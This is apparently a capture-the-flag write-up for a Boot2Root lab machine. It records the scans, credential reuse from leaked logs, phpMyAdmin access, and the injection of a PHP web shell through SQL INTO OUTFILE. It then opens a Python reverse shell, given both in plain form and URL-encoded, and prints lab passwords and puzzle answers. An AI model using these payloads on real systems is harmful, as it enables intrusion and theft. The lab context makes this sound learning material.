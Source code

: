 ## nmap
scan the network 10.11.0.0/16
```
Nmap scan report for 10.11.100.94
Host is up (0.0013s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

## dirb 
### commad:
```
gobuster  dir --url https://{IP} --wordlist /usr/share/wordlists/dirb/common.txt --no-tls-validation
```

DIRB IS a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.
![ alt text for screen readers](imgs/dirb_scanHTTP.png "dirb_scanHTTP")
![ alt text for screen readers](imgs/dirb_scanHTTPS.png "dirb_scanHTTP")

## 
from threats posted on the forum i found an intersting one "login problem"
reading the logs , a line says: 'Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2'
    - sounds like someone write a password in username field.
    - tried to connect using ssh users form forum and this password (didn't work)
    - tried to log in to forum with:
    ```
    username: lmezard
    password: !q\]Ej?*5K5cy*AJ
    ```
    - it works , i also got the email from the user profile
    email: laurie@borntosec.net

### The same password was used to log in to webmail
    user: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ

+ on the inbox i there's a mail contain credential to a databases 
![ alt text for screen readers](imgs/db_access.png "db credentials")

## access phpMyAdmin

login: root

password: Fg-'kKXBj87E:aJ$

## inject a webshell in sql 
ressource: https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/pyload.php"



export RHOST="IP";export RPORT=3412;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

## GET a foothold on the machine 

open a port and start listening for incoming connection

nc -lk -p 3412

encode the pyload and pass it to cmd in : https://IP/forum/templates_c/pyload.php/?cmd=(encoded pyload)



## list users 
laurie@borntosec.net@BornToSecHackMe:~$ getent passwd {1000..60000}
getent passwd {1000..60000}
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash


$ cat /home/LOOKATME/password
cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
$


laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135


https://10.11.100.68/forum/templates_c/pyload.php/?cmd=export%20RHOST%3D%2210.11.100.68%22%3Bexport%20RPORT%3D3412%3Bpython%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fsh%22%29%27

Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekmq
4 2 6 3 1 5